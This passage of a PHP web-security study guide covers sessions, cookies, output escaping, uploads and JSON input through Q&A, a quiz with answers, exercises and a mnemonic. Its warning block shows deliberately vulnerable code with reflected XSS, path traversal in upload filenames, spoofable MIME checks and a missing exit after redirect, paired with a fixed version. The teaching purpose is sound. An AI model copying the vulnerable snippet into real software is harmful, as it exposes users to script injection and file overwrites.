3. Generate a random server-side filename (`bin2hex(random_bytes(16)) . '.jpg'`) and move the file with `move_uploaded_file()`[cite: 1].

**Q5: Why does PHP block concurrent HTTP requests from the same user when sessions are active, and how do you fix it?**
**A:** Default file-based PHP sessions acquire an exclusive file lock on the session file when `session_start()` is called and hold that lock until the request terminates, preventing race conditions on `$_SESSION`. If a request performs slow I/O after reading session data, calling `session_write_close()` saves the session and releases the lock immediately so other concurrent requests from that user can proceed.

---

### Interactive Revision Quiz

**Q1: If a client sends a GET request to `/search.php?user.name=valay&tags[]=php`, how does PHP populate `$_GET`?**

- [ ] A) `$_GET['user.name'] === 'valay'` and `$_GET['tags'] === 'php'`
- [ ] B) `$_GET['user_name'] === 'valay'` (dot is converted to underscore!) and `$_GET['tags'] === ['php']` (an array!)
- [ ] C) Throws a `ParseError` on `user.name`
- [ ] D) `$_GET` is empty because `[]` is invalid in URLs

**Q2: What happens on the current request when you call `setcookie('theme', 'dark');` and immediately read `$_COOKIE['theme']` on the very next line?**

- [ ] A) `$_COOKIE['theme']` immediately returns `'dark'`.
- [ ] B) `$_COOKIE['theme']` is **not** updated on the current request (it remains unset or holds the old cookie value), because `setcookie()` only queues a `Set-Cookie` HTTP response header for the browser to send back on the **next** request!
- [ ] C) It throws a Fatal Error unless `session_start()` was called first.
- [ ] D) It deletes the cookie.

**Q3: Which `htmlspecialchars()` call follows modern PHP 8.4/8.5 security best practices for escaping user text inside single- or double-quoted HTML attributes?**

- [ ] A) `htmlspecialchars($str, ENT_NOQUOTES)`
- [ ] B) `htmlspecialchars($str, ENT_QUOTES | ENT_SUBSTITUTE, 'UTF-8')`
- [ ] C) `filter_var($str, FILTER_SANITIZE_STRING)`
- [ ] D) `strip_tags($str)`

**Q4: Which function was introduced in PHP 8.4 to natively parse `multipart/form-data` bodies on non-POST requests such as `PUT` and `PATCH`?**

- [ ] A) `http_parse_multipart()`
- [ ] B) `request_parse_body()`
- [ ] C) `parse_str_body()`
- [ ] D) `stream_get_multipart()`

**Q5: Immediately after verifying a user's password during login and setting `$_SESSION['user_id'] = $user->id;`, what function MUST you call to prevent Session Fixation attacks?**

- [ ] A) `session_destroy()`
- [ ] B) `session_unset()`
- [ ] C) `session_regenerate_id(true)`
- [ ] D) `session_reset()`

<details>
<summary>Show Quiz Answers & Explanations</summary>

1. **B** — PHP converts dots (`.`) and spaces in incoming parameter names into underscores (`user_name`), and parses any key ending in `[]` (`tags[]`) into a PHP `array` ([PHP External Variables Manual](https://www.php.net/manual/en/language.variables.external.php)).
2. **B** — `$_COOKIE` only contains cookies sent by the client in the incoming HTTP request's `Cookie:` header; `setcookie()` sends a `Set-Cookie:` header in the outbound HTTP response, so `$_COOKIE` won't reflect it until the browser makes a subsequent request ([`setcookie` Docs](https://www.php.net/manual/en/function.setcookie.php)).
3. **B** — `ENT_QUOTES | ENT_SUBSTITUTE` escapes both double (`"`) and single (`'`) quotes and safely substitutes invalid UTF-8 byte sequences instead of returning an empty string[cite: 1].
4. **B** — **[PHP 8.4](https://www.php.net/releases/8.4/en.php#request_parse_body)** added `request_parse_body()` to parse `multipart/form-data` and `application/x-www-form-urlencoded` bodies on `PUT`/`PATCH` requests.
5. **C** — [`session_regenerate_id(true)`](https://www.php.net/manual/en/function.session-regenerate-id.php) assigns a brand-new session ID to the now-authenticated user and deletes the old pre-login session file (`true`), neutralizing Session Fixation attacks.

</details>

---

## Practice Exercises

### Exercise 1: Basic — Strict Query Parameter & Pagination Filter

Write a function `getPaginationParams(array $query): array` with `declare(strict_types=1);` that extracts `'page'` and `'limit'` from `$query` (`$_GET`). Use `filter_var()` with `FILTER_VALIDATE_INT` to ensure `page` is at least `1` (defaulting to `1` if missing, invalid, or an array like `?page[]=1`) and `limit` is between `1` and `100` (defaulting to `20`). Return `['page' => $page, 'limit' => $limit, 'offset' => ($page - 1) * $limit]`.

### Exercise 2: Intermediate — JSON API Endpoint with `php://input` & `JSON_THROW_ON_ERROR`

Write a function `handleJsonWebhook(string $rawBody, string $expectedSecret, array $serverHeaders): string` that:

1. Verifies `$serverHeaders['HTTP_X_WEBHOOK_SECRET'] ?? ''` matches `$expectedSecret` using timing-safe `hash_equals()`.
2. Decodes `$rawBody` inside a `try / catch (JsonException $e)` block using `json_decode($rawBody, associative: true, flags: JSON_THROW_ON_ERROR)`.
3. Returns a JSON-encoded response `['status' => 'accepted', 'event_id' => $payload['id'] ?? null]` with `JSON_THROW_ON_ERROR`.

### Exercise 3: Security & Templating — Output-Buffered Native View Engine with CSRF Token

Create a `ViewRenderer` class with a `render(string $templateFile, array $data = []): string` method that:

1. Generates a 32-byte cryptographic CSRF token in `$_SESSION['csrf_token'] ??= bin2hex(random_bytes(32))`[cite: 1].
2. Uses `ob_start()` and an isolated static closure `(static function (string $__file, array $data): void { require $__file; })($templatePath, $data)` (so the template cannot access `$this` or overwrite `$__file`!).
3. Captures and returns the rendered HTML via `ob_get_clean()`.

---

## Memory Trick / One-Liner

> [!tip] The "Filter Input, Escape Output, Exit Redirects, Regenerate Sessions" Mantra
>
> - Reading user input? **Verify `is_string()` + `filter_var()`** (and read JSON from **`php://input`**!).
> - Rendering HTML? **`htmlspecialchars($s, ENT_QUOTES | ENT_SUBSTITUTE, 'UTF-8')`** (and block `javascript:` URLs!)[cite: 1].
> - Sending `header('Location: ...')`? Put **`exit;`** on the very next line!
> - Logging a user in? Call **`session_regenerate_id(true);`** immediately!
>   **Takeaway Formula:** **`php://input` for JSON + `filter_var()` on Input + `htmlspecialchars()` on Output + `finfo` on Uploads = Bulletproof PHP Web Layer.**

---

## Warning Block (Best Practice)

> [!warning] Common Mistake (Avoid This!)
>
> ```php
> <?php
> // BAD - Reading JSON from $_POST, trusting $_FILES['type'], echoing raw $_GET (XSS),
> // and missing exit after header('Location: ...')!
> if (!$isLoggedIn) {
>     header('Location: /login'); // BUG: Script keeps running below!
> }
>
> $jsonEmail = $_POST['email']; // BUG: Always null on application/json requests!
>
> if ($_FILES['doc']['type'] === 'application/pdf') { // BUG: Client-spoofable MIME header!
>     move_uploaded_file($_FILES['doc']['tmp_name'], 'uploads/' . $_FILES['doc']['name']); // Path traversal!
> }
>
> echo "Welcome, " . $_GET['name']; // CRITICAL: Reflected XSS + crashes if ?name[]=array!
> ```
>
> ```php
> <?php
>
> declare(strict_types=1);
>
> // GOOD - Immediate exit after redirect, php://input + JSON_THROW_ON_ERROR,
> // finfo magic-byte check + random filename, and strict e() XSS output escaping!
> if (!$isLoggedIn) {
>     header('Location: /login', response_code: 302);
>     exit;
> }
>
> $rawBody   = file_get_contents('php://input') ?: '{}';
> $payload   = json_decode($rawBody, associative: true, flags: JSON_THROW_ON_ERROR);
> $jsonEmail = filter_var($payload['email'] ?? '', FILTER_VALIDATE_EMAIL);
>
> $rawName  = $_GET['name'] ?? 'Guest';
> $safeName = htmlspecialchars(is_string($rawName) ? $rawName : 'Guest', ENT_QUOTES | ENT_SUBSTITUTE, 'UTF-8');
> echo "Welcome, {$safeName}";
> ```
